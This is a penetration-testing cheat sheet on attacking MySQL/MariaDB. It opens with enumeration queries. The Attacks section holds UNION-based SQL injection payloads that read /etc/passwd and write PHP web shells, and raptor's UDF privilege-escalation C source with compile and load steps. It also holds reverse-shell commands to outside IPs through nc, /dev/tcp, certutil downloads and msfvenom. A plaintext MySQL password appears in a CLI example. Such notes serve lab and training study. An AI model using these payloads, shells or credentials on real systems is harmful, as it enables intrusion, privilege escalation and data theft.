

# 3306 - MySQL/MariaDB

## 101


**MariaDB** is a fork of MySQL which uses the same port and syntax.


### Usage



```sql
SELECT version();
```



```sql
SELECT current_user();
SELECT user();
SELECT system_user();
```



```sql
# List databases
SHOW databases;

# Select the specified database
USE <database>;
```



```sql
SHOW tables FROM <database>;
SHOW tables;
```



```sql
SELECT * FROM <table>;
```



### Schemas & DBs

MySQL default system schemas:

<table><thead><tr><th width="176.66668701171875">Schema</th><th>Description</th></tr></thead><tbody><tr><td><code>mysql</code> </td><td>System database containing tables that store information required by the MySQL server</td></tr><tr><td><code>information_schema</code> </td><td>Provides access to database metadata</td></tr><tr><td><code>performance_schema</code> </td><td>A feature for monitoring MySQL Server execution at a low level</td></tr><tr><td><code>sys</code> </td><td>A set of objects that helps DBAs and developers interpret data collected by the <code>performance_schema</code></td></tr></tbody></table>

MySQL stores information about itself in the [`information_schema`](https://dev.mysql.com/doc/refman/8.4/en/information-schema.html) database, which is a read-only repository of the metadata of the MySQL database server, providing insights into the structure and organization of the database environment. It contains some useful tables, such as:

| Table                                                                                        | Description                         |
| -------------------------------------------------------------------------------------------- | ----------------------------------- |
| [`schemata`](https://dev.mysql.com/doc/refman/8.4/en/information-schema-schemata-table.html) | Information about all databases     |
| [`tables`](https://dev.mysql.com/doc/refman/8.4/en/information-schema-tables-table.html)     | Information about all tables        |
| [`columns`](https://dev.mysql.com/doc/refman/8.4/en/information-schema-columns-table.html)   | Details about columns in the tables |

We can use the following queries to enumerate the DBMS via the `information_schema` database:



```sql
SELECT table_schema FROM information_schema.tables GROUP BY table_schema;
```



```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='<table>';
```




```sql
SELECT column_name, data_type FROM information_schema.columns WHERE table_schema = '<database>' AND table_name = '<table>';
```




### CLI Tools



```bash
mysql -h <target-ip> -u lewis -pP4ntherg0t1n5r3c0n##
```

For an example of `mysql` usage see [Devvortex](../../../../boxes/easy/devvortex.md).



## Attacks

### SQLi

Enumeration statements:


On the below commands, the comment at the end includes a space: `--` ! The `#` symbol can also be used.




```bash
a' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- 
```



```bash
a' UNION select 1,database(),2,3-- 
```




```bash
a' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='db1'-- 
```





```bash
a' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='table1'-- 
```




```bash
a' ' UNION select 1, col1, col2, 4 from db1.table1-- 
```



`UNION`-based payload for reading and writing files:




```sql
# Enumerate user
a' UNION SELECT 1, user(), 3, 4-- 
a' UNION SELECT 1, user, 3, 4 from mysql.user-- 

# User's privileges
a' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="user1"-- 

# Superpriv
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 

# Read file
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```





```bash
# Securepriv
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"--

# Write file
a' union select 1,'textToBeWritten',3,4 into outfile '/var/www/html/proof.txt'-- 

# RCE
a' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- 
```




```bash
a' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="user1"-- 
```



```bash
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- 
```



### UDF Functions

**User Defined Functions (UDFs)** in MySQL enable extending database capabilities by allowing custom functions written in any programming language to be compiled into shared libraries and loaded into the database. These functions run natively like built-in ones, providing flexibility but also introducing a significant attack surface when exploited. From a red team perspective, UDFs present a powerful method to escalate privileges, especially **when the MySQL server runs with elevated permissions**.

```bash
# Enumerate mysql permissions
ps -aux | grep mysql
```

If the MySQL operates as `root` and the latter is compromised there is the potential of leveraging UDFs for privilege escalation based on [raptor's PoC](https://www.exploit-db.com/exploits/1518).

<details>

<summary>C code</summary>


```c
#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
	unsigned int		arg_count;	// number of arguments
	enum Item_result	*arg_type;	// pointer to item_result
	char 			**args;		// pointer to arguments
	unsigned long		*lengths;	// length of string args
	char			*maybe_null;	// 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
	char			maybe_null;	// 1 if func can return NULL
	unsigned int		decimals;	// for real functions
	unsigned long 		max_length;	// for string functions
	char			*ptr;		// free ptr for func data
	char			const_item;	// 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
	if (args->arg_count != 1)
		return(0);

	system(args->args[0]);

	return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
	return(0);
}
```


</details>


```bash
# Compile the exploit code
gcc -g -c raptor_udf2.c
# Covert the compiled binary to a shared library (so)
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```


Accessing the MySQL database with `root` credentials allows the discovery of the plugin directory where MySQL stores UDF libraries and confirmation that the `secure_file_priv` setting was disabled, permitting file operations necessary for loading the malicious library.&#x20;

```sql
# Enumerate the plugin directory
show variables like '%plugin%';
# Check the value of the secure_file_priv setting (empty/NULL means that is disabled)
show variables like '%secure_file_priv%';
```

The compiled shared library was loaded into the database by reading its binary content into a table and dumping it into the plugin directory. Subsequently, a new SQL function was created to link to this shared library.


```sql
# Use the mysql database
use mysql;

# Create a table to hold the exploit code
create table foo(line blob);

# Import the exploit by inserting its contents into the table
insert into foo values(load_file('/tmp/raptor_udf2.so'));

# Dump the so's content onto the plugins directory
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';

# Create a function that invokes the exploit
create function do_system returns integer soname 'raptor_udf2.so';

# Confirm the presence of the do_system function
select * from mysql.func;

# Test the function
select do_system('id > /var/www/output; chown www-data www-data  /var/www/output');

# Get a reverse root shell
select do_system('nc 192.168.49.136 8080 -e /bin/bash');
```


### Read & Write Files


The `FILE` privilege is needed to both `read` and `write` files.


In MySQL, the ability to read from or write to files requires the `FILE` privilege, and is further controlled by the global system variable `secure_file_priv`. This variable restricts file operations to a specific directory:

* If set to a directory path, operations like `LOAD_FILE` and `SELECT ... INTO OUTFILE` are limited to that path.
* If set to `NULL`, these operations are completely disabled.
* If empty, there are no restrictions—this is insecure but allows unrestricted file I/O.

```sql
# Check current setting
SELECT @@GLOBAL.secure_file_priv;
```

If permitted, files can be written using the `SELECT ... INTO OUTFILE` clause. The target directory must be writable by the OS user running MySQL. For example:

```sql
SELECT * FROM users INTO OUTFILE '/var/lib/mysql-files/test.txt';
```

To read files:

```sql
SELECT LOAD_FILE('/var/lib/mysql-files/test.txt');
```

If the server is insecurely configured (e.g., `secure_file_priv` is empty), sensitive files may be readable:

```sql
SELECT LOAD_FILE('/etc/passwd');
```

An attacker with `FILE` privileges may exploit SQLi to:

* Read files using `LOAD_FILE()`
* Write files using `INTO OUTFILE`
* Query sensitive tables and variables like `mysql.user` or `information_schema.global_variables`


```sql
a' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4--
a' UNION SELECT 1, user(), 3, 4--
a' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables WHERE variable_name="secure_file_priv"--
```


If the MySQL server is running in a web environment and the web root is known and writable, it may be possible to write a PHP web shell. To enumurate the webroot the `LOAD_FILE` clause can be used to read the server configuration.

<table><thead><tr><th width="144">Server</th><th>Web Root Directory</th></tr></thead><tbody><tr><td>Apache</td><td><code>/etc/apache2/apache2.conf</code></td></tr><tr><td>Nginx</td><td><code>/etc/nginx/nginx.conf</code></td></tr><tr><td>ISS</td><td><code>$WinDir%\System32\Inetsrv\Config\ApplicationHost.config</code></td></tr></tbody></table>


```sql
# Write a webshell file
SELECT "<?php echo shell_exec($_GET['c']); ?>" INTO OUTFILE '/var/www/html/webshell.php';
```


Once written, this shell can be accessed via a browser to execute OS commands and if needed upgraded to a reverse shell.


```sh
# Revshell payload
sh -i >& /dev/tcp/192.168.45.170/443 0>&1

# Encoded
GET /webshell.php?c=sh%20-i%20%3e%26%20%2fdev%2ftcp%2f192.168.45.170%2f443%200%3e%261
```


### phpMyAdmin

[phpMyAdmin](https://www.phpmyadmin.net/) is a **browser-based MySQL and MariaDB administration interface** written in PHP. It enables database management without direct command-line interaction by allowing the execution of SQL queries, database creation or deletion, table management, and user privilege modification through a web interface.

```bash
# Default credentials
$ uv run creds search phpmyadmin
+------------+----------+----------+
| Product    | username | password |
+------------+----------+----------+
| phpmyadmin |   root   | <blank>  |
+------------+----------+----------+
```

If the admin account is compromised RCE can be achieved by either creating a webshell directly...

```sql
// Create a webshell
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE 'C:/wamp/www/shell.php';
```


```bash
# RCE
$ curl http://127.0.0.1:8080/shell.php?cmd=whoami

# Reverse shell
$ curl "http://127.0.0.1:8080/shell.php?cmd=certutil+-urlcache+-f+http://192.168.118.23/nc.exe+nc.exe"
​
$ curl "http://127.0.0.1:8080/shell.php?cmd=nc.exe+192.168.118.23+445+-e+powershell.exe"
```


or by first creating an upload page:


```sql
// Create an upload page
SELECT 
"<?php echo \'<form action=\"\" method=\"post\" enctype=\"multipart/form-data\" name=\"uploader\" id=\"uploader\">\';echo \'<input type=\"file\" name=\"file\" size=\"50\"><input name=\"_upl\" type=\"submit\" id=\"_upl\" value=\"Upload\"></form>\'; if( $_POST[\'_upl\'] == \"Upload\" ) { if(@copy($_FILES[\'file\'][\'tmp_name\'], $_FILES[\'file\'][\'name\'])) { echo \'<b>Upload Done.<b><br><br>\'; }else { echo \'<b>Upload Failed.</b><br><br>\'; }}?>"
INTO OUTFILE 'C:/wamp/www/uploader.php';
```


<figure><figcaption></figcaption></figure>

```bash
# Create a reverse shell payload to upload
$ msfvenom -p php/reverse_php LHOST=192.168.45.241 LPORT=80 -f raw -o shell.php
```

## Inline Commands

Tools like WinRM does not support interactive prompts like `mysql` shell normally uses. That means we must use the `-e` option to execute SQL statements inline:


```powershell
# List databases
> .\mysql.exe -u root -e "SHOW DATABASES;"

# List tables
.\mysql.exe -u root -D wordpress -e "SHOW TABLES;"
...
```

